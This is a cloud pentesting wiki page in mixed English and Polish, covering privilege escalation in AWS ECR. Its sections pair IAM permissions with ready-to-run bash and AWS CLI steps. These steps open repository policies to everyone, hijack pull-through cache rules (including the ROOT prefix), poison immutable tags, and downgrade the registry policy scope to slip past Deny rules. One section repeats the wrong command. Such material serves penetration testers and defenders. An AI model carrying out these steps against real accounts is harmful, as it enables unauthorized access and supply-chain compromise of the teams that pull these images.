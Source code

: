 # AWS - ECR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{{#ref}}
../../aws-post-exploitation/aws-ecr-post-exploitation/README.md
{{#endref}}

**Potencjalny wpływ:** Pośrednie privesc przez przechwycenie wrażliwych informacji w ruchu sieciowym.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

{{#ref}}
../../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
Na przykład, w tym przykładzie dostęp do odczytu jest przyznany wszystkim.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Zawartość pliku `my-policy.json`:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Podobnie jak w poprzedniej sekcji, ale dla publicznych repozytoriów.\
Atakujący może **zmodyfikować politykę repozytorium** w repozytorium ECR Public, aby przyznać nieautoryzowany publiczny dostęp lub eskalować swoje uprawnienia.
```bash
# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**Potencjalny wpływ**: Nieautoryzowany publiczny dostęp do repozytorium ECR Public, pozwalający każdemu użytkownikowi na push, pull lub delete images.

### `ecr:PutRegistryPolicy`

Atakujący z tym uprawnieniem mógłby **zmienić** **registry policy**, aby przyznać sobie, swojemu kontu (lub nawet wszystkim) **read/write access**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{{#include ../../../../banners/hacktricks-training.md}}





### ecr:CreatePullThroughCacheRule

Wykorzystaj reguły ECR Pull Through Cache (PTC), aby zmapować przestrzeń nazw upstream kontrolowaną przez atakującego na zaufany, prywatny prefiks ECR. Spowoduje to, że workloady pobierające obrazy z prywatnego ECR będą przezroczysto otrzymywać obrazy atakującego bez potrzeby pushowania do prywatnego ECR.

- Wymagane uprawnienia: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. Jeśli używasz ECR Public jako upstream: ecr-public:* do tworzenia/pushowania do publicznego repo.
- Testowany upstream: public.ecr.aws

Kroki (przykład):

1. Prepare attacker image in ECR Public
# Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
docker login public.ecr.aws/<public_alias>
docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. Create the PTC rule in private ECR to map a trusted prefix to the public registry
aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. Pull the attacker image via the private ECR path (no push to private ECR was done)
docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potencjalny wpływ: Kompromitacja łańcucha dostaw przez przejęcie wewnętrznych nazw obrazów pod wybranym prefiksem. Każdy workload pobierający obrazy z prywatnego ECR używając tego prefiksu otrzyma zawartość kontrolowaną przez atakującego.

### `ecr:PutImageTagMutability`

Wykorzystaj to uprawnienie do przełączenia repozytorium z niezmienną mutowalnością tagów na mutowalną i nadpisania zaufanych tagów (np. latest, stable, prod) zawartością kontrolowaną przez atakującego.

- Wymagane uprawnienia: `ecr:PutImageTagMutability` oraz uprawnienia do pushowania (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`).
- Wpływ: Kompromitacja łańcucha dostaw przez ciche zastąpienie niezmiennych tagów bez zmiany ich nazw.

Kroki (przykład):

<details>
<summary>Zatrucie niezmiennego taga przez przełączenie mutowalności</summary>
```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```
</details>


#### Global registry hijack za pomocą reguły ROOT Pull-Through Cache

Utwórz regułę Pull-Through Cache (PTC) używając specjalnego `ecrRepositoryPrefix=ROOT`, aby zmapować root prywatnego rejestru ECR do upstream public registry (np. ECR Public). Każdy pull do nieistniejącego repozytorium w prywatnym rejestrze będzie transparentnie serwowany z upstream, umożliwiając supply-chain hijacking bez pushowania do prywatnego ECR.

- Wymagane uprawnienia: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- Wpływ: Pulls do `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` zakończą się powodzeniem i automatycznie utworzą prywatne repozytoria pochodzące z upstream.

> Uwaga: Dla reguł `ROOT` pomiń `--upstream-repository-prefix`. Podanie go spowoduje błąd walidacji.

<details>
<summary>Demo (us-east-1, upstream public.ecr.aws)</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
--region "$REGION" \
--ecr-repository-prefix ROOT \
--upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
--query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```
</details>

### `ecr:PutAccountSetting` (Obniżenie `REGISTRY_POLICY_SCOPE`, aby obejść odmowy polityki rejestru)

Wykorzystaj `ecr:PutAccountSetting` do zmiany zakresu polityki rejestru z `V2` (polityka stosowana do wszystkich akcji ECR) na `V1` (polityka stosowana tylko do `CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage`). Jeśli restrykcyjna registry policy Deny blokuje akcje takie jak `CreatePullThroughCacheRule`, obniżenie do `V1` usuwa to egzekwowanie, dzięki czemu identity‑policy Allows zaczynają obowiązywać.

- Wymagane uprawnienia: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- Wpływ: Możliwość wykonania akcji ECR wcześniej zablokowanych przez registry policy Deny (np. utworzenie reguł PTC) przez tymczasowe ustawienie zakresu na `V1`.

Kroki (przykład):

<details>
<summary>Obejście registry policy Deny dla `CreatePullThroughCacheRule` przez przełączenie na `V1`</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "DenyPTCAll",
"Effect": "Deny",
"Principal": "*",
"Action": ["ecr:CreatePullThroughCacheRule"],
"Resource": "*"
}
]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
--query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```
</details>
